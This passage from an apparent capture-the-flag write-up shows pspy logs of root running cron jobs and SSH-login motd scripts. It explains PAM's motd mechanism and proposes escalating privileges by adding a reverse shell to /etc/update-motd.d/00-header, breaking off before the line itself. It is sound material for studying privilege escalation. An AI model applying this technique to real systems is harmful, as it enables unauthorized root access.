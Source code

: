 ```bash
2020/12/28 17:11:01 CMD: UID=0 PID=49845 | sleep 30
2020/12/28 17:11:01 CMD: UID=0 PID=49844 | /bin/cp /var/backups/.update-motd.d/00-header /var/backups/.update-motd.d/10-help-text /var/backups/.update-motd.d/50-motd-news /var/backups/.update-motd.d/80-esm /var/backups/.update-motd.d/91-release-upgrade /etc/update-motd.d/
2020/12/28 17:11:01 CMD: UID=0 PID=49843 | /bin/sh -c /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/
2020/12/28 17:11:01 CMD: UID=0 PID=49842 | /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/
2020/12/28 17:11:01 CMD: UID=0 PID=49841 | /usr/sbin/CRON -f
2020/12/28 17:11:01 CMD: UID=0 PID=49840 | /usr/sbin/CRON -f
2020/12/28 17:11:31 CMD: UID=0 PID=49846 | /bin/cp /var/backups/.update-motd.d/00-header /var/backups/.update-motd.d/10-help-text /var/backups/.update-motd.d/50-motd-news /var/backups/.update-motd.d/80-esm /var/backups/.update-motd.d/91-release-upgrade /etc/update-motd.d/
```

Motd is "message of the day" and is a set of text files that are displayed to a user when they log in. Linux uses PAM \(Pluggable Authentication Modules\) to manage the authentication and login process. The module pam\_motd is the one responsible for displaying the messages to users logging in and before they get a shell.

We can see what happens to the pspy output when we SSH in:

```bash
2020/12/28 17:41:04 CMD: UID=0 PID=50208    | /usr/sbin/sshd -D -R
2020/12/28 17:41:04 CMD: UID=106 PID=50209  | sshd: [net]
2020/12/28 17:41:07 CMD: UID=0 PID=50211    | run-parts --lsbsysinit /etc/update-motd.d
2020/12/28 17:41:07 CMD: UID=0 PID=50210    | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new
2020/12/28 17:41:07 CMD: UID=??? PID=50213  | ???
2020/12/28 17:41:07 CMD: UID=0 PID=50214    | /bin/sh /etc/update-motd.d/50-motd-news
2020/12/28 17:41:07 CMD: UID=0 PID=50218    | /bin/sh /etc/update-motd.d/50-motd-news
2020/12/28 17:41:07 CMD: UID=0 PID=50217    |
2020/12/28 17:41:07 CMD: UID=0 PID=50216    |
2020/12/28 17:41:07 CMD: UID=0 PID=50215    |
2020/12/28 17:41:07 CMD: UID=0 PID=50219    | /bin/sh /etc/update-motd.d/80-esm
2020/12/28 17:41:07 CMD: UID=0 PID=50220    | /bin/sh /etc/update-motd.d/80-esm
2020/12/28 17:41:07 CMD: UID=0 PID=50221    | /usr/bin/python3 -Es /usr/bin/lsb_release -ds
2020/12/28 17:41:07 CMD: UID=0 PID=50222    | /bin/sh /etc/update-motd.d/91-release-upgrade
2020/12/28 17:41:07 CMD: UID=0 PID=50225    | cut -d -f4
2020/12/28 17:41:07 CMD: UID=0 PID=50224    | /usr/bin/python3 -Es /usr/bin/lsb_release -sd
2020/12/28 17:41:07 CMD: UID=0 PID=50223    | /bin/sh /etc/update-motd.d/91-release-upgrade
2020/12/28 17:41:07 CMD: UID=??? PID=50226  | ???
2020/12/28 17:41:07 CMD: UID=0 PID=50227    | stat -c %Y /var/lib/ubuntu-release-upgrader/release-upgrade-available
2020/12/28 17:41:07 CMD: UID=0 PID=50230    | sshd: sysadmin [priv]
2020/12/28 17:41:08 CMD: UID=1001 PID=50231 | -sh
```

The most important thing hers is that we can see the scripts in the motd files being run by root. We should be able to modify one of the files and put in a reverse shell which will get called when we SSH in.

We can edit the file /etc/update-motd.d/00-header and add the line:
